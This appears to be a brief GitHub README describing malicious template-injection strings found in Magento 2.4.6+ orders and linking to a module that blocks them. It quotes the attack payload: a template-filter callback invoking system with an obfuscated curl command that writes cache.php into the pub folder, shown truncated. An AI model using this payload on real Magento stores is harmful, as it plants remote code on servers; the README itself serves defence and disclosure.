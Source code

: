 # Magento-issue

# 1. When applying patches to Magento 2.4.6 or later versions, you might encounter the following issue in orders:

## Issue :- {{var this.getTemp lateFil ter().filter(firstname)}} {{var this.getTemp lateFil ter().add AfterFil terCallb ack(system).Filter(cd${IFS%??}pub;curl${IFS%??}-o${IFS%??}cache.php${IFS%

### solution:- To resolve this issue, you can use the following module which addresses this specific problem:
* Module link : https://github.com/DeployEcommerce/module-trojan-order-prevent

* Screenshot
** Order grid in admin
![Order Grid](order-grid.png)

** Order View in admin
![Order View](order-view.png)

